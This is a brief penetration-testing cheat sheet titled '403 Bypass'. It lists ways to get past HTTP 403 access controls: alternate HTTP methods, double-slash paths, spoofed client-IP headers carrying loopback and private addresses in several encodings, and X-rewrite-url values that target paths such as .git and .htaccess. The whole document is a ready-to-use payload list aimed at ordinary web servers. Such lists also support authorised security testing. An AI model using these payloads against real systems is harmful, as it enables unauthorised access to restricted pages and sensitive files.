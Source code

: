 # 403 Bypass

## Change method

* POST&#x20;
* PUT&#x20;
* TRACE&#x20;
* OPTIONS
* PATCH

```
slash: // -> https://example.com/admin//
```

## Header



```
X-Custom-IP-Authorization
X-Forwarded-For
X-Forward-For
X-Remote-IP
X-Originating-IP
X-Remote-Addr
X-Client-IP
X-Real-IP

values
localhost
localhost:80
localhost:443
127.0.0.1
127.0.0.1:80
127.0.0.1:443
2130706433
0x7F000001
0177.0000.0000.0001
0
127.1
10.0.0.0
10.0.0.1
172.16.0.0
172.16.0.1
192.168.1.0
192.168.1.1
```

Rewrite header

```
X-rewrite-url: 
values:
.htaccess
.git
%2f
%2e/js/
/*
/./
./.
/*/
```
